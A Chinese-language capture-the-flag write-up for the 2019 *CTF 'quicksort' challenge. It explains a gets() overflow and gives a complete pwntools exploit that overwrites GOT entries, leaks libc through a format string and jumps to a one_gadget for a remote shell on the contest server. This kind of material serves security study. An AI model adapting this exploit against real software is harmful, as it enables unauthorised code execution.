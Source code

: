 
---
title: Starctf2019_Quicksort
date: 2019-04-29 11:27:25
tags:
---
挺简单的一题...但是我的利用思路...可能有些曲折..
<!--more-->
# Start
[binary][1]
# Anaylsis
漏洞点很简单...gets...我第一眼居然没看到以为是类型设置错误...

```arm
 for ( i = 0; i < size; ++i )
  {
    printf("the %dth number:", i + 1);
    gets(&s);
    tmp = &ptr[i];
    *tmp = (int *)atoi(&s);
  }
```
可以覆盖掉其他东西...
然后学弟写了一会...表示不知道咋利用...我就接手了交flag的活...

# 利用思路
我的可能比较奇特...改成了fmt漏洞
* hijack stack_chk_fail_got =====>main
* hijack free_got           =====>printf
* fmtstr                    =====>leak libc
* one_gadget
# exp
```python
from pwn import *
context.log_level = 'debug'
context.arch = 'i386'
#context.terminal = ['tmux', 'sp', '-h']
local = 1
if 0:
	p = process('./quicksort')
else:
	p=remote("34.92.96.238",10000)    
elf = ELF('./quicksort')
g = lambda x: next(elf.search(asm(x)))
ret = g('ret') # 0x8048816
puts_plt = elf.plt['puts'] # 0x8048560
puts_got = elf.got['puts'] # 0x804a02c
free_got = elf.got['free'] # 0x804a018
printf = elf.plt['printf'] # 
func = 0x08048816
stack_chk_fail_got = elf.got['__stack_chk_fail']
setbuf_got = elf.got['setbuf']


def write(addr, val, t):
	payload = str(val)
	payload += (0x10 - len(payload)) * '\x00'
	payload += p32(t)
	payload += (0x1C - len(payload)) * '\x00'
	payload += p32(addr)
	p.recvuntil('number:')
	p.sendline(payload)

def overflow(addr, val, t):
	payload = str(val)
	payload += (0x10 - len(payload)) * '\x00'
	payload += p32(t)
	payload += (0x1C - len(payload)) * '\x00'
	payload += p32(addr) + '\x00' * 4
	p.recvuntil('number:')
	p.sendline(payload)
bss=0x0804a000+0x800
p.recvuntil('sort?\n')
t = 2
p.sendline(str(t))
write(free_got, printf, 2)
overflow(stack_chk_fail_got, 0x8048816, 1)

p.recvuntil('sort?\n')
p.sendline(str(t))
overflow(bss, 1881420837, 1)
p.readuntil("37 \n")
base=int(p.read(0xa),16)-(0xf7791000-0xf75df000)
log.warning(hex(base))
#gdb.attach(p, 'b *0x80489bf')
one=0x3ac62+base
p.recvuntil('sort?\n')
p.sendline(str(t))
write(stack_chk_fail_got, one&0xffff, 2)
overflow(stack_chk_fail_got+2, (one&0xffff0000)>>16, 1)


p.interactive()
```

[1]:https://github.com/n132/Watermalon/tree/master/Starctf_2019